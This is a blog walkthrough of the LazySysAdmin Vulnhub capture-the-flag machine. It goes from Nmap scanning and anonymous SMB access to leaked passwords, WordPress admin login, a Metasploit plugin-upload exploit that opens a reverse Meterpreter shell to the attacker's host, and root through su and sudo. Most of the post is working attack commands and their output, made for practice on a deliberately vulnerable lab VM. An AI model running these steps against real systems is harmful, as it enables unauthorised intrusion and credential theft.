 ```yaml
---
date: 2020-04-27 03:43:30
layout: post
title: "LazySysAdmin Vulnhub Walkthrough"
subtitle:
description: Today we will be doing LazySysAdmin from Vulnhub. An easy boot2root machine configured by a lazy system administrator.
image: /assets/img/uploads/lazySysAdmin/lazy.jpg
optimized_image: /assets/img/uploads/lazySysAdmin/lazy.jpg
category: walkthrough
tags: vulnhub boot2root
author:
paginate: false
---
```


Today we will be doing LazySysAdmin from Vulnhub. An easy boot2root machine created by 'Togie Mcdogie'. The machine truly stands up to its name. This machine was configured by a lazy system administrator and thus, one clear thing to be looking for is a misconfigured system. Lets dive in!

We begin our reconnaissance by running a port scan with Nmap, checking default scripts.

```r
m1m3@kali:~$ nmap -sV -sV -oA nmap/lazySysAdmin 192.168.1.9 

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.9
Host is up (0.0044s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.93 seconds
```

We see a mysql port open and Samba smd running on port 139 and 445. We also have a webserver running at port 80.

<center><br>
<img src="/assets/img/uploads/lazySysAdmin/port80.png">
</center>

Let's try gaining access to the samba and see if we can login anonymously. We will use <i>smbclient</i> for this. If it asks for any password, just leave it empty and press enter.

```r
m1m3@kali:~$ smbclient -L 192.168.1.9

Enter WORKGROUP\m1m3's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        share$          Disk      Sumshare
        IPC$            IPC       IPC Service (Web server)
SMB1 disabled -- no workgroup available
```

We can access the share$ folder using: 

```r
m1m3@kali:~$ smbclient  '\\192.168.1.9\share$'

Enter WORKGROUP\m1m3's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Aug 15 16:35:52 2017
  ..                                  D        0  Mon Aug 14 18:04:47 2017
  wordpress                           D        0  Thu Apr 30 00:15:04 2020
  Backnode_files                      D        0  Mon Aug 14 17:38:26 2017
  wp                                  D        0  Tue Aug 15 16:21:23 2017
  deets.txt                           N      139  Mon Aug 14 17:50:05 2017
  robots.txt                          N       92  Mon Aug 14 18:06:14 2017
  todolist.txt                        N       79  Mon Aug 14 18:09:56 2017
  apache                              D        0  Mon Aug 14 18:05:19 2017
  index.html                          N    36072  Sun Aug  6 10:32:15 2017
  info.php                            N       20  Tue Aug 15 16:25:19 2017
  test                                D        0  Mon Aug 14 18:05:10 2017
  old                                 D        0  Mon Aug 14 18:05:13 2017

                3029776 blocks of size 1024. 1459952 blocks available          
smb: \> 
```

We see some interesting test files here, let's download them and see if they have anything useful.

```r
smb: \> get deets.txt
getting file \deets.txt of size 139 as deets.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> get todolist.txt
getting file \todolist.txt of size 79 as todolist.txt (12.9 KiloBytes/sec) (average 1.5 KiloBytes/sec)
smb: \> ^C

m1m3@kali:~$ cat deets.txt 
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345

m1m3@kali:~$ cat todolist.txt 
Prevent users from being able to view to web root using the local file browser
m1m3@kali:~$ 
[1] 0:bash*                                                                                               
```

Awesome! <i>deets.txt</i> reveals a password 12345. Another thing now we can look at is the wordpress directory.

```r
smb: \> cd wordpress
smb: \wordpress\> ls
  .                                   D        0  Thu Apr 25 00:15:04 2020
  ..                                  D        0  Tue Aug 15 16:35:52 2017
  wp-config-sample.php                N     2853  Wed Dec 16 15:28:26 2015
  wp-trackback.php                    N     4513  Sat Oct 15 01:09:28 2016
  wp-admin                            D        0  Thu Aug  3 02:32:02 2017
  wp-settings.php                     N    16200  Thu Apr  6 23:31:42 2017
  wp-blog-header.php                  N      364  Sat Dec 19 16:50:28 2015
  index.php                           N      418  Wed Sep 25 05:48:11 2013
  wp-cron.php                         N     3286  Sun May 24 22:56:25 2015
  wp-links-opml.php                   N     2422  Mon Nov 21 08:16:30 2016
  readme.html                         N     7413  Mon Dec 12 13:31:39 2016
  wp-signup.php                       N    29924  Tue Jan 24 16:38:42 2017
  wp-content                          D        0  Thu Apr 30 00:31:17 2020
  license.txt                         N    19935  Mon Jan  2 23:28:42 2017
  wp-mail.php                         N     8048  Wed Jan 11 10:43:43 2017
  wp-activate.php                     N     5447  Wed Sep 28 03:06:28 2016
  .htaccess                           H       35  Tue Aug 15 17:10:13 2017
  xmlrpc.php                          N     3065  Wed Aug 31 22:01:29 2016
  wp-login.php                        N    34327  Fri May 12 22:42:46 2017
  wp-load.php                         N     3301  Tue Oct 25 08:45:30 2016
  wp-comments-post.php                N     1627  Mon Aug 29 17:30:32 2016
  wp-config.php                       N     3703  Mon Aug 21 14:55:14 2017
  wp-includes                         D        0  Thu Aug  3 02:32:03 2017

                3029776 blocks of size 1024. 1459952 blocks available          
smb: \wordpress\> 
```
 Looking into the wp-config, we get some username and password.

 ```r
 /** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');
```

We can use these to login into the wp-admin

<center><br>
<img src="/assets/img/uploads/lazySysAdmin/wordpress.png">
</center>

Now that we are successfully logged in, we can upload a payload packaged as a WordPress plugin. We can use metasploit here to exploit the server.

```r
msf5 > use exploit/unix/webapp/wp_admin_shell_upload 
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD TogieMYSQL12345^^
PASSWORD => TogieMYSQL12345^^
msf5 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[*] Authenticating with WordPress using admin:TogieMYSQL12345^^...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/nqVodSMHuP/rimGsZTjkk.php...
[*] Sending stage (38288 bytes) to 192.168.1.9
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.1.9:45938)
[+] Deleted rimGsZTjkk.php
[+] Deleted nqVodSMHuP.php
[+] Deleted ../nqVodSMHuP

meterpreter > shell
Process 1697 created.
Channel 0 created.
id       
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@LazySysAdmin:$
```

Looking into the /etc/passwd, we can see a user named  <i>togie</i>

```r
www-data@LazySysAdmin:$ cat /etc/passwd
cat /etc/passwd

togie:x:1000:1000:togie,,,:/home/togie:/bin/rbash

www-data@LazySysAdmin:$ 
```

This will be our way In!  We can now ssh into the user or simply use <i>su</i> to login with the password we got from <i>deets.txt.</i> 

```r
www-data@LazySysAdmin:$ su togie
su togie
Password: 12345
togie@LazySysAdmin:$ id
id
uid=1000(togie) gid=1000(togie) groups=1000(togie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)
togie@LazySysAdmin:$ 
```

We can see that the user is added in the <i>sudoers</i> group. Therefore we can directly run <i>sudo su </i> to get the root shell.

```r
togie@LazySysAdmin:$ sudo su
sudo su
[sudo] password for togie: 12345

root@LazySysAdmin:.# 
```

That's it! We rooted the box. Now we can read our flag.

```r
root@LazySysAdmin:.# cat /root/proof.txt/
cat /root/proof.txt
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie




Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu

root@LazySysAdmin:.# 
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/Jothon">Joshua Anderson.</a>